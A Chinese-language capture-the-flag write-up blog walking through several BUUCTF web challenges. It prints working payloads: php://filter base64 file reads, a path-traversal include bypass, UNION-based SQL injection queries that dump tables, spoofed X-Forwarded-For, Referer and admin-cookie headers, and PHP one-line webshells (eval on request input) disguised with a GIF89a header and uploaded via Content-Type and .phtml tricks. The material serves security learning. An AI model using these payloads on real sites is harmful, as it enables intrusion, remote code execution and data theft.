

### [极客大挑战2019] Have fun

打开后发现是这个


不管三七二十一，直接查看源代码

发现一堆东西


最后看到 if($cat=‘dog’)，根据已有C语言的知识，感觉应该是个条件判断，后面是什么呢？不用管（其实我不知道），根据GET，应该是让我们输入，尝试输入这个指令

> 补：
>
> 1.加 / 因为说是绝对路径，不加是相对路径
>
> 2.加 ？是表示传参


发现flag

### [ACTF 2020新生赛]include

##### PHP伪协议


点击后出现这个，查看源代码发现什么都没有，于是返回上一级查看源代码


发现file=flag.php ,尝试直接输入flag.php查看


结果什么都没有


下面就得学习PHP伪协议

详解https://pythonlaolv.blog.csdn.net/article/details/136493198?fromshare=blogdetail&sharetype=blogdetail&sharerId=136493198&sharerefer=PC&sharesource=2402_87387389&sharefrom=from_link

输入相应的编码让筛选过滤不执行的输出，这题是php://filter协议


输入/?file=php://filter/read=convert.base64-encode/resource=flag.php


再利用base64解码，拿到flag

### [HCTF 2018] Warm up

##### 构造payload，根目录下查找


打开后发现是一个滑稽脸，查看源代码


发现body部分有source.php文件，其他没有有用的了

尝试打开source.php


打开后是一堆代码


又发现 if 了，其有file文件，猜测flag在其中，

(补：查阅知,php中include是包含并运行指定文件内容；

is_string是用于检查一个变量是否为字符串型

request可以同时获取GET 和POST请求的数据)

所以我们要达到include行


直接查看file，没有变化，不行

额，下面不会了……

下面是借鉴大佬的wp了

定义了一个emmm的类，有一个checkFile用于检查包含文件是否在白名单中，$whitelist中包含允许包含的 键值对（是一个数据结构，可以更加方便的访问和存储数组中元素）

允许包含的有"source"=>"source.php","hint"=>"hint.php"


首先检查传入的$page是否为字符串型，不是输出"you can't see it "并返回false,然后检查传入的$page是否在白名单中存在。然后使用mb_strpos函数

> $str：要截取的字符串。
> $start：截取开始的位置（从0开始）。
> $length：要截取的长度，如果省略或为NULL，则截取到字符串末尾。
> $encoding：字符串的编码方式

后使用mb_substr函数将问号之前的部分当成$_page进行处理

因此尝试输入file=hint.php

其说flag在ffffllllaaaagggg中

构造payload：source.php?file=hint.php?/../../../../ffffllllaaaagggg

我们当前的source.php一般在html目录下，往上是www,var,然后到根目录，flag一般在根目录下


### [极客大挑战2019]Secret File 1


查看源代码


发现./Archive_room.php，输入进行访问


当点击SECRET后，直接出现这个界面了


多次点击后无变化，源码中也无信息，于是返回上一级查看源码发现action.php


当用上面的同样方法查看时，发现看不到


使用burp suit 抓包来查看./action.php


发现其存在一个隐藏PHP文件secr3t.php ,输入进行访问


查看flag.php


查看源码也没有信息……

于是再从secr3t.php入手


发现其有 if 的条件判断

> stristr : 用于在一个字符串中查找另一个字符串，并返回第一次出现的位置及其后所有字符

直接file=flag.php无法访问，使用php伪协议，发现一长串base64编码数据

?file=php://filter/read=convert.base64-encode/resource=flag.php


解码后找到flag


### [极客大挑战2019] HTTP

##### 本地访问，user-agent,请求


打开后是一个网站，查看源码初看并未发现有用的信息，但注意到页面可以左右滑动


滑动后发现一个Secret.php


访问


发现一个提示，并不是来自https://Sycsecret.buuoj.cn，打开burp suit ,先将抓到的包发给repeater,再添加语句Referer:https://Sycsecret.buuoj.cn（好像不能加在最后一行，不知道为啥）查看render

> 补：
>
> Referer必须在Connection上方，其他位置无法发送成功请求
>
> https://Sycsecret.buuoj.cn是一个URL指向一个"Sysecret.buuoj.cn"
>
> 的网站或资源
>
> Referer（请求头字段）表示指示请求的来源页面


其要求我们用Syclover,所以要将User-Agent后内容删去，再将其改为Syclover,再次发送

> 补：User-Agent：标识发起请求的用户代理（常为浏览器）
>
>

又出现一个提示，提示我们要从本地访问，只需添加语句

X-Forwarded-For:127.0.0.1

得到flag

补：HTTP的一些知识

```html
GET or POST / HTTP/1.1

Host:

Cache-Control:

Upgrade-Insecure-Requests:

User-Agent: //一般这个地方也需要改，看题目给的啥提示来改.
//UA的后面接上请求的浏览器 操作系统的信息等.

Accept: 

Accept-Encoding:

Accept-Language: 

Connection: 

X-Forwarded-For：//如果提示只能由本地访问，这里内容必须改为127.0.0.1如果给了其他ip,那就改为其他IP地址.

Referer：//这地方也需要改，看看题目给的提示，看给哪个url。

Cookie://如果提示只能由管理员访问，就必须把Cookie的内容改为admin。
```

### [极客大挑战2019] LoveSQL

##### union联合注入

打开后发现是一个登陆界面，根据题目名称，猜测是SQL注入问题


查询表名：

1' union select 1,2,(select group_concat(table_name)from information_schema.tables where table_schema=database()) %23

发现两个表 geekuser,l0ve1ysq1


先查询第一个表中的字段名，出现三个字段id，username,password


再查询第二个表中字段名，其中同样是这三个


获取字段信息

拿到flag：
1' union select 1,2,(select group_concat(id,username,password) from l0ve1ysq1) %23


### [watevrctf-2019] Cookie Store 

打开后发现是一个购物？但只有50$(图中是我做完的)


而flag cookie需要$100，根据题目信息应该是个cookie类题目


利用bp抓包，发现cookie是一段base64编码的字段，解码后发现是


尝试将money其改为100，再将其编码为base64,修改原本的cookie


发现钱变多了，然后购买flag cookie即得到flag


### [极客大挑战 2019] Upload

打开后发现是一个要求上传图片的，

传了几个图片发现显示Not image，diao用没有

查看源码，发现一个upload_file.php,访问后出现同样的画面

看提示知这是文件上传漏洞（一句话木马）


上传后同样出现其不是图片，将其改为图片格式 .png，其图标变成这样了


上传后出现提示，于是换一个一句话，同时因为其要求是图片格式，打开010editer查看图片，发现图片头是GIF89a,于是将其改为

```php
GIF89a? <script language="php">eval($_REQUEST[1])</script>
```


> 补：
>
> 1.出现这个提示，表明网站后台有检测，过滤
>
> 2.如果并无要求是图片格式，只需将其改为
>
> ```php
> <script language="php">@eval($_POST["1"]);</script>
> ```
>
> 

再次上传,发现上传成功


打开antsword，尝试连接，点击测试连接发现出现返回数据为空（下面就是借鉴大佬的了hhh）


对我们上传的文件进行访问发现无法访问，可能是后缀名错误，于是将文件后缀名改为 .phtml，结果出现

于是再次进行抓包，


将Content-Type格式改为image/jpeg，然后放包，显示上传成功


并对我们上传的进行查看，显示的正确


打开antsword,测试连接，显示连接成功


打开根目录发现flag


